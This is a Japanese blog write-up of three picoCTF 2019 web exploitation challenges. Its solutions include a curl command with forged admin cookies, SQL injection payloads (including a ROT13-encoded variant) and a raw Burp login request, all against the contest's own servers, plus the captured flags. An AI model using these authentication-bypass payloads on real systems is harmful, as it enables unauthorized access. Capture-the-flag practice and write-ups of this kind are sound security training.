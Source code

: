 ```yaml
---
title: "picoCTF 2019 Writeup (Web Exploitation)"
date: 2019-10-13T12:00:00+09:00
lastmod: 2019-10-13T12:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF"]
categories: ["CTF"]
author: "きゃぷあめ"
---
```

URL: [https://2019game.picoctf.com/](https://2019game.picoctf.com/)
<br /><br />
お疲れ様でした！ （実際、ほんとに疲れた）

<br /><br />
最終結果は、こんな感じ。

<img src="https://captureamerica.github.io/writeups/img/pico2019_Score.png" alt="pico2019_Score.png">

<br />
イベント終了時点で、ユーザは4万人弱でした。

<img src="https://captureamerica.github.io/writeups/img/pico2019_Users.png" alt="pico2019_Users.png">

<img src="https://captureamerica.github.io/writeups/img/pico2019_Rank.png" alt="pico2019_Rank.png">

PwnとWeb系があんまりできてないけど、スコアも切りのいい20000に行ったし、Globalで目標の300位以内 (283位) にも入れたのでかなり満足です。

2週間の間、土日もずっとピコってたし、一日年休も取って頑張りました。

去年出た問題に似てるものも結構あったので、picoCTF 2018をそれなりにやった人は結構アドバンテージがあったと思います。



<br /><br />
Web Exploitation の Writeupです。




<br /><br />
# [Web Exploitation]: Open-to-admins (200 points)
- - -
## Challenge
> This secure website allows users to access the flag only if they are admin and if the time is exactly 1400. https://2019shell1.picoctf.com/problem/32249/ (link) or http://2019shell1.picoctf.com:32249
<br /><br />
Hints : Can cookies help you to get the flag?<br />

<br />
## Solution
```
curl -k -H 'Cookie: admin=True; time=1400'  https://2019shell1.picoctf.com/problem/32249/flag
```


Flag: `picoCTF{0p3n_t0_adm1n5_cc661e91}`



<br /><br />
<br /><br />
# [Web Exploitation]: Irish-Name-Repo 2 (350 points)
- - -
## Challenge
> There is a website running at https://2019shell1.picoctf.com/problem/60775/ (link). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://2019shell1.picoctf.com:60775
<br /><br />
Hints : The password is being filtered.

<br />
## Solution
picoCTF 2018のVaultと同じ問題です。

デバッグを見ようとして、以下を入れたら、Flag取れちゃった。
```
username
' /*

password
*/ or 3=3 -- &debug=1
```

Flag: `picoCTF{m0R3_SQL_plz_015815e2}`




<br /><br />
<br /><br />
# [Web Exploitation]: Irish-Name-Repo 3 (400 points)
- - -
## Challenge
> There is a secure website running at https://2019shell1.picoctf.com/problem/12271/ (link) or http://2019shell1.picoctf.com:12271. Try to see if you can login as admin!
<br /><br />
Hints : Seems like the password is encrypted.


<br />
## Solution
Burpでやったらdebug変数が見えたので、1に変えてみました。

```
POST /problem/12271/login.php HTTP/1.1
Host: 2019shell1.picoctf.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Connection: close
Referer: https://2019shell1.picoctf.com/problem/12271/login.html
Upgrade-Insecure-Requests: 1

password=admin&debug=1
```

```
password: admin
SQL query: SELECT * FROM admin where password = 'nqzva'
```

'nqzva' は、'admin' のRot13ですね。

<br />
いつものこの子を、
```
' or 1=1 --
```

Rot13して以下のようにします。
```
' be 1=1 --
```

Flag: `picoCTF{3v3n_m0r3_SQL_ef7eac2f}`



<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />

